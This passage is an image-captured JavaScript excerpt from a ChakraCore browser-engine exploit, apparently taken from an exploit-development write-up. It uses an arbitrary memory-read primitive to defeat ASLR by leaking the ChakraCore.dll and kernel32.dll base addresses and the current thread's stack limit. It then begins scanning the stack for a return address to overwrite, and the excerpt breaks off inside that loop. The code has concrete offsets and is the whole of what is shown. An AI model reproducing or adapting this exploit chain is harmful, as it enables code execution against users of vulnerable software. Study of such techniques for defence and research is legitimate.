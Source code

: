 ```javascript
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xed000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));

    // Scan the stack

    // Counter variable
    let counter = 0;

    // Store our target return address
    var retAddr = new Uint32Array(0x10);
    retAddr[0] = chakraLo + 0x1768bc0;
    retAddr[1] = chakraHigh;

    // Loop until we find our target address
    while (true)
    {

        // Store the contents of the stack
        tempContents = read64(stackLeak[0]+counter, stackLeak[1]);

        // Did we find our return address?
```